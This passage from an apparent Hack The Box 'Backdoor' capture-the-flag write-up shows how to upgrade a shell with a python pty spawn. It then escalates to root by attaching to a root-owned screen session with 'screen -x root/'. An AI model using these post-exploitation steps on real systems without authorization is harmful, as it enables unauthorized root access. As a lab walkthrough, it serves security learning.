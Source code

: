 ## **Update Shell**

```bash
/usr/bin/script -qc /bin/bash /dev/null

export SHELL=bash;export TERM=xterm-256color

python3.8 -c "import pty; pty.spawn('/bin/bash')"
```

## **Privilege Escalation**

Enumerating the existing processes, we see that something is running `screen` as root (in a loop) as root. This command checks the `/var/run/screen/S-root` directory every one second, if empty it creates a root session on screen.

![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Backdoor/Untitled%2017.png)

> Screen is a terminal multiplexer tool, which allows the user to open multiple windows within one session and keep those windows running even when the user is not around or logged in (they will disappear on reboot).
> 

We can see that there is a root session:

```bash
ls -l /var/run/screen/
```

![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Backdoor/Untitled%2018.png)

Here we cannot read the **S-root** directory.

```bash
screen -ls root/
```

![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Backdoor/Untitled%2019.png)

To login to the session:

```bash
screen -x root/ 
```

But first we need to use a terminal:

```bash
export TERM=xterm
```